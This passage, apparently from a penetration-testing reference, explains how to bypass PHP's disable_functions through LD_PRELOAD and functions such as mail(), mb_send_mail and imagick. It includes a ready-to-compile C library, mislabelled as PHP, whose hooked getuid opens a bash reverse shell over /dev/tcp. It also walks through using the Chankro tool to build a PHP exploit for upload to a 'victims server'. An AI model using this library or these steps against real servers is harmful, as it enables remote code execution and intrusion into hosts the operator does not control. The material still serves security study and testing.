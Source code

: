 It's well known that some functions in PHP like `mail()`are going to **execute binaries inside the system**. Therefore, you can abuse them using the environment variable `LD_PRELOAD` to make them load an arbitrary library that can execute anything.

#### Functions that can be used to bypass disable\_functions with LD\_PRELOAD

1. `mail`
2. `mb_send_mail` : If your system has `php-mbstring` module installed then this function can be used to bypass php disable\_functions.
3. `imap_mail` : If your system has `php-imap` module installed then this function also can be used to bypass the php disable\_functions.
4. `libvirt_connect` : If your system has `php-libvirt-php` module installed then this function also can be used to bypass disable\_functions.
5. `gnupg_init` : If your system has `php-gnupg` module installed then this function also can be used to bypass disable\_functions.
6. `new imagick()`: You can [**find here a writeup**](https://blog.bi0s.in/2019/10/23/Web/BSidesDelhi19-evalme/) to learn how to abuse this class

You can find [**here**](https://github.com/tarunkant/fuzzphunc/blob/master/lazyFuzzer.py) the fuzzing script that was used to find those functions.

Here is a library you can compile to abuse the `LD_PRELOAD` env variable:

```php
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>

uid_t getuid(void){
    unsetenv("LD_PRELOAD");
    system("bash -c \"sh -i >& /dev/tcp/127.0.0.1/1234 0>&1\"");
    return 1;
}
```

#### Bypass using Chankro

In order to abuse this misconfiguration you can [**Chankro**](https://github.com/TarlogicSecurity/Chankro). This is a tool that will **generate a PHP exploit** that you need to upload to the vulnerable server and execute it \(access it via web\).  
**Chankro** will write inside the victims disc the **library and the reverse shell** you want to execute and will use the**`LD_PRELOAD` trick + PHP `mail()`** function to execute the reverse shell.

Note that in order to use **Chankro**, `mail` and `putenv` **cannot appear inside the `disable_functions` list**.  
In the following example you can see how to **create a chankro exploit** for **arch 64**, that will execute `whoami` and save the out in _/tmp/chankro\_shell.out_, chankro will **write the library and the payload** in _/tmp_ and the **final exploit** is going to be called **bicho.php** \(that's the file you need to upload to the victims server\):

{% tabs %}
{% tab title="shell.sh" %}
```php
#!/bin/sh
whoami > /tmp/chankro_shell.out
```
{% endtab %}

